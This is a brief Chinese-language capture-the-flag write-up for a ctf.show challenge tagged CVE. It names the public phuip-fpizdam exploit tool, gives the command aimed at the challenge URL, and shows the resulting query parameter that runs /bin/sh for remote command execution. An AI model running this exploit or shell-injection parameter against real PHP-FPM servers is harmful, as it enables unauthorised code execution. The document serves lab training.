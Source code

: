 tags:: CVE

- 用[phuip-fpizdam](https://github.com/neex/phuip-fpizdam)
- `phuip-fpizdam http://28fa60af-92a7-4ca5-87d8-5b387fc2f35b.challenge.ctf.show/index.php`
- 拿到命令执行参数：`?a=/bin/sh+-c+'which+which'&`
- 使用命令执行参数进行RCE即可获取flag
